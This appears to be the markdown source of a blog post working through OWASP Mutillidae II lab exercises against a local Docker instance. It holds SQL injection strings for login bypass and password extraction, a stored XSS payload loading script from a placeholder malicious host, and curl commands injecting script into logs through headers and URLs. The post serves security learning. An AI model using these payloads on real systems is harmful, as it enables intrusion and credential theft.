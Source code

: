 ```yaml
---
categories:
  - Others
title: "Learning web app secuiry with OWASP Mutillidae II - part 1"
slug: "mutillidae-ii-part-1"
date: "2018-01-23T14:41:50+01:00"
tags:
    - security
    - owasp
    - mutillidae
    - pentesting
cover:
  image: /img/2017/002/owasp_full_logo.png
  caption: OWASP logo
  style: normal
draft: false
---
```

Learning web app secuiry with OWASP Mutillidae II - part 1
-------------------------------------------------

# iNSTALLATION

Run `nowasp` container:
```
docker run -p 8888:80 -p 3306:3306 citizenstig/nowasp
```

Go to [http://localhost:8888/](http://localhost:8888/), and build the DB.


# eXCERCICES:

## OWASP 2013

### A1 - Injection (SQL) - SQLi Extract data - User info

Submit the form with such query in the `Name` field:
```
admin'-- AND 'password='password'
```

Response:
```
Username=admin
Password=adminpass
Signature=g0t r00t?
```

### A1 - Injection (SQL) - SQLi Bypass authentication - Login

You can use the same query in the `Name` field:
```
admin'-- AND 'password='password'
```

Response:
```
Logged In Admin: admin (g0t r00t?)
```

### A1 - Injection (SQL) - SQLi Insert Injection - Add to your blog


*Stored Cross-Site Scripting*
```
<script src="http://malicious.site.com/bad.js"></script>
```
Once saved, check your browser's Network requests using e.g. Developer tools:

{{< gallery title="Stored Cross-Site Scripting" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-Stored_Cross-Site_Scripting.png" thumb="-thumb" size="1311x204" caption="Stored Cross-Site Scripting" >}}
{{< /gallery >}}

{{< pswp-init >}}


get MySQL version:
```
'+SUBSTRING(@@version,1,10)+'
```

Red herrings: queries that don't fail but don't give much info back:
```
'+(SELECT IF(1=1,'true','false'))+'
'+(SELECT password FROM accounts WHERE username="root")+'
'+SUBSTRING((SELECT password FROM accounts WHERE username="root"),1,10)+'
'+(SELECT table_name FROM information_schema.tables WHERE table_schema = "nowasp.accounts")+'
'+(SELECT column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts")+'
'+SUBSTRING(SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts",1,50)+'
'+SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name="accounts"),1,50)+'
aaa', now()); SELECT * FROM accounts; --
aaa', IF(1=1,'true','false'));#
aaa', IF(1=1, SELECT * FROM members, 'false'));#
'+ (SELECT password FROM accounts WHERE login='admin' ) +'
'+(SELECT password FROM members WHERE login="admin")+'
'+(SELECT IF(1=1,'true','false'))+'
admin'-- AND SELECT * FROM accounts;
```


### A1 - Injection (SQL) - SQLi Insert Injection - Register for an Account

HTMLi - 
add this to the registration signature:
```html
<CANARY={}""()'';#$--/>1
```
or simply add XSS
```
<CANARY={}""()'';#$--/><script>alert("welcome");</script>
```
Then log in as newly created user and see that `1` is visible next to the user name in top menu:

{{< gallery title="HTMLi" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-HTMLi.png" thumb="-thumb" size="1419x559" caption="HTMLi" >}}
{{< /gallery >}}

{{< pswp-init >}}


### A1 - Injection (SQL) - SQLi Insert Injection - View Captured Data

Here's one of my favs:
*Application Log Injection:*
You can send a dummy HTTP request with `User-Agent` header containing JS:
```bash
curl http://localhost:8888/index.php?page=register.php -H "User-Agent: <script>alert('pwnd with Application Log Injection');</script>"  &> /dev/null
```

or abuse the fact that the `endpoint` part of the URL is interpretted and logged so that we can include JS in it:
```bash
curl "http://localhost:8888/<script>alert('query_param');</script>" &> /dev/null
```

Once you send the request, then go to the [http://localhost:8888/index.php?page=show-log.php](http://localhost:8888/index.php?page=show-log.php) the alert pop-ups will appear.

*NOTES:*

* can you create an account for `root` user???


http://localhost:8888/index.php?page=capture-data.php
```
curl http://localhost:8888/index.php?page=capture-data.php&showhints=1 -H "PHPSESSID: 5hdie94hhe7cc50pqsbvujqkb3"
```
